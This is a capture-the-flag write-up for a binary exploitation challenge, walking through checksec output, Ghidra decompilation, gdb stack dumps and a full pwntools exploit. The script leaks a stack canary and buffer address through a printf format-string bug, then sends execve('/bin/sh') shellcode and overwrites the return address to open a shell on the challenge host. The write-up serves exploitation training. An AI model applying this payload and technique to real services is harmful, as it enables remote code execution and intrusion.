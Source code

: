 +++
title = "Shell is Love, Shell is life"
date = 2024-09-11
authors = ["Abhinav I S"]
+++

As with all pwn challenges, we run checksec on the binary
```checksec --file=pwn```

```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

NX bit is disabled !, we can execute code on the stack!, 
let us try dissassembling the binary using GHIDRA
```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  setbuf(stdout,(char *)0x0);
  local_78 = 0x333c2049;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  puts("Can you pwn me?");
  puts("What is your name?");
  fgets((char *)&local_78,100,stdin);
  puts("Welcome to the contingent");
  printf((char *)&local_78);
  puts("Anything else?");
  fgets((char *)&local_78,0x100,stdin);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

They are printing user input directly using printf!
We can leak information using format string vulnerabilities

Let us observe the stack using gdb 
`x/50x $rsp`

```
0x7fffffffdc90: 0x0000000d      0x00000000      0xffffdca0      0x00007fff
0x7fffffffdca0: 0x6c243725      0x00000a78      0x00000000      0x00000000
0x7fffffffdcb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcd0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdce0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcf0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd00: 0x00000000      0x00000000      0x20220400      0x87f89f7d
0x7fffffffdd10: 0x00000001      0x00000000      0xf7c29d90      0x00007fff
0x7fffffffdd20: 0x00000000      0x00000000      0x55555240      0x00005555
0x7fffffffdd30: 0xffffde10      0x00000001      0xffffde28      0x00007fff
0x7fffffffdd40: 0x00000000      0x00000000      0x66b41503      0xb621f5da
0x7fffffffdd50: 0xffffde28      0x00007fff
```
Strangely, there is an address in the stack, in the stack itself! (0x7fffffffdca0) at 0x7fffffffdc98

, Let us try putting AAAA into the first input prompt !

examining the stack again,
```
gef➤  x/50x $rsp
0x7fffffffdc90: 0x0000000d      0x00000000      0xffffdca0      0x00007fff
0x7fffffffdca0: 0x0a414141      0x00000000      0x00000000      0x00000000
0x7fffffffdcb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcd0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdce0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcf0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd00: 0x00000000      0x00000000      0x67406800      0xa126b205
0x7fffffffdd10: 0x00000001      0x00000000      0xf7c29d90      0x00007fff
0x7fffffffdd20: 0x00000000      0x00000000      0x55555240      0x00005555
0x7fffffffdd30: 0xffffde10      0x00000001      0xffffde28      0x00007fff
0x7fffffffdd40: 0x00000000      0x00000000      0x1dd653c2      0xd568252e
0x7fffffffdd50: 0xffffde28      0x00007fff
```

The address of the buffer is in the stack !, we can leak this address, along with the canary, write shellcode in this buffer, and then over write the return address with the address of the buffer!

```python
from pwn import *

#exe = ELF("./vuln")

#context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("10.21.232.38", 7003)

    return r


def main():
    r = conn()
    # 22 - > rbp
    # 21 - > canary
    # 7-> location of the array
    payload1 = b"%7$lx.%21$lx"
    r.recvuntil(b"name?\n")
    r.sendline(payload1)
    r.recvuntil("contingent\n")
    data = r.recv().split(b'\n')[0]
    print(data.split(b"."))
    data = data.split(b".")
    addr = int(data[0],16)
    canary = int(data[1],16)


    shellcode = b"\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"

    #shellcode is 28 bytes long

    print(len(shellcode))
    payload2 = shellcode + b"A"*(104-48)+ p64(canary) +b"B"*8 + p64(addr)


    r.sendline(payload2)
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```





